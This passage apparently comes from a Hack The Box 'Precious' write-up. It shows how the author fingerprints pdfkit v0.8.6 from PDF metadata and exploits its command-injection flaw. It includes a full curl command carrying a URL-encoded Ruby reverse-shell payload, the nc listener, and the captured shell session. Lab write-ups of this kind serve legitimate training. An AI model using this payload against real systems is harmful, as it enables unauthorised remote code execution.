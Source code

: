 We have to remember that the machine is hosted into a vpn so the web page have to be reachable by the precious’s web page.

We simply can host an our page.

Let’s create an `index.php` and host it with

```bash
php -S [our vpn IP]:[port]
```

Perform our request and it returns us a PDF as follow:

[x9nc0zgm1ioi3epmzue2e4pv4evuct5p.pdf](Precious%20197f7a24aede448f8371db585696bdab/x9nc0zgm1ioi3epmzue2e4pv4evuct5p.pdf)

Now, try to get some other information about this file.

I used `exiftool` and the result gives to me a terrific important information.

```bash
┌──(kali㉿kali)-[~/…/ctf/hackTheBox/machines/precious]
└─$ exiftool x9nc0zgm1ioi3epmzue2e4pv4evuct5p.pdf           
ExifTool Version Number         : 12.54
File Name                       : x9nc0zgm1ioi3epmzue2e4pv4evuct5p.pdf
Directory                       : .
File Size                       : 10 kB
File Modification Date/Time     : 2023:01:16 18:51:28+01:00
File Access Date/Time           : 2023:01:18 11:26:08+01:00
File Inode Change Date/Time     : 2023:01:16 18:51:49+01:00
File Permissions                : -rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

After a google search I found that the `PdfKit v-0.8.6` is vulnerable to a `Remote Code Execution`. 

Using this information and knowing that the server is a `ruby` server. I found in a cheatsheet an exploit that uses a Ruby Socket to spawn a shell.

I crafted a curl request to get the reverse shell. Open a `nc listener` in your local machine.

```bash
curl -X POST http://precious.htb -d "url=http%3A%2F%2F[LOCAL IP]%3A90%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22[LOCAL IP]%22%2C1234%29%29%27%60"
```

Let me make a recap. You now should be have your php instance, your nc listener and running the curl request you should be able to open a `reverse shell`.

```bash
┌──(kali㉿kali)-[~/…/ctf/hackTheBox/machines/precious]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.88] from (UNKNOWN) [10.10.11.189] 58750
ls -al
total 36
drwxr-xr-x 6 root root 4096 Oct 26 08:28 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
drwxr-xr-x 4 root ruby 4096 Oct 26 08:28 app
drwxr-xr-x 2 root ruby 4096 Oct 26 08:28 config
-rw-r--r-- 1 root ruby   59 Sep 10 09:46 config.ru
-rw-r--r-- 1 root ruby   99 Sep 17 14:17 Gemfile
-rw-r--r-- 1 root ruby  478 Sep 26 05:04 Gemfile.lock
drwxrwxr-x 2 root ruby 4096 Jan 18 05:39 pdf
```